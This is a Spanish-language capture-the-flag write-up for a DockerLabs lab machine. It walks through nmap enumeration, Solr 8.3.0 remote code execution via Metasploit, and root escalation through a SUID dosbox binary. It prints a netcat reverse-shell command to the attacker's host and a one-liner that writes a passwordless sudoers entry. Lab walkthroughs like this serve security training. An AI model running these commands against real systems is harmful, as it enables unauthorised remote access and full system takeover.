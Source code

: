 # Máquina Eclipse
Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/RG0whSrR#dhO_VHaG-BK8A6NcVwiAhYWxZiStdYj9yT3DFWGiVEQ)

- **Nombre de la Máquina:** Fooding
- **Sistema Operativo**: Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
	- Solr 8.3.0 Remote Code Execution via Velocity Template

### Reconocimiento y enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```
![Pasted image 20240709193254](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/e0741a7d-94f7-4c97-a521-6c77e238e1d3)

Nos reporta el puerto 80 y el puerto 8983, haremos un escaneo mas exhaustivo para ver que corre por cada puerto.
```bash
sudo nmap -p 80,8983 -sCV 172.17.0.2 -oN targeted.txt
```
![Pasted image 20240709193514](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/16ab5a02-6480-4993-98f3-1209a06c73cc)

- Puerto 80: HTTP Apache
- Puerto 8983: Solr Admin

Después de analizar el informe de nmap, identificamos que el puerto 80 está activo y ejecuta un servicio Apache. Además, notamos que en el puerto 8983 se está ejecutando otro servicio, que es un servidor web desarrollado en Java y empleado para realizar búsquedas específicas, como las que se realizan dentro de un blog.

En el puerto 80 solo encontramos una imagen, la cual no nos aporta información útil, por lo que decidí investigar más a fondo el servicio Solr.

![Pasted image 20240709194022](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/176f0ce5-e677-46b7-b68b-906ab788f86d)

Como podemos observar en el panel de control, se muestra la versión del servicio. Con esta información, procedo a investigar si existen vulnerabilidades explotables.

Tuvimos suerte y encontramos varios métodos de explotación. Básicamente, es el mismo procedimiento, pero con diferentes enfoques: uno utilizando Metasploit y otro empleando un script en Python.
[Exploit Solr 8.3.0](https://www.exploit-db.com/exploits/48338)

### Explotación

    - Utilizo tanto el método con msfconsole como con el script.

Con Metasploit, sigo los pasos después de analizarlos cuidadosamente y los adapto a mi entorno.

#### Metasploit
Buscamos el exploit con el comando:
```bash
search solr
```
![Pasted image 20240709195212](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/e2c2ae74-3d41-431a-8829-aec31a474756)


```bash
use 0
set RHOSTS 172.17.0.2
set LHOST 172.17.0.1
check
```
![Pasted image 20240709195413](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/fa080517-d09c-4c7f-a63e-903089e2d3f6)

Al poner check, nos dice que el target es vulnerable.
![Pasted image 20240709195557](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/eec4a79e-ff88-4b9c-bbe2-9a8808fbb308)

Ejecutamos el comando run y estaremos dentro de la máquina como usuario ninhack.
![Pasted image 20240709195738](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/b4d64aff-c782-4e28-864a-11f5adeebc3a)


### Escalada de privilegios
Primero me mandé una shell para trabajar mas cómodo con el siguiente comando:
```bash
nc 172.17.0.1 1234 -e /bin/bash
```

Para la escalada de privilegios primero probé  con sudo y nos pide contraseña así que me puse a investigar y vi que tengo permisos SUID con el binario **dosbox**.
```bash
find / -perm -4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
/usr/bin/dosbox
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Miro en la página [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid) y encuentro justo el método para escalar privilegios usando ese script.

Después de investigar un poco, entiendo que este binario nos permite escribir en el sistema. Esto nos da la posibilidad de modificar ciertos archivos para obtener privilegios de root.

Para finalizar la explotación, realizo lo siguiente con sudoers:

```bash
LFILE='\etc\sudoers.d\ninhack'
/usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

Una vez ejecutados esos comandos, solo necesitamos ejecutar `sudo su` para convertirnos en usuario root.
![Pasted image 20240709201931](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/18a446b4-a44b-42b3-b540-580cc1d50a51)

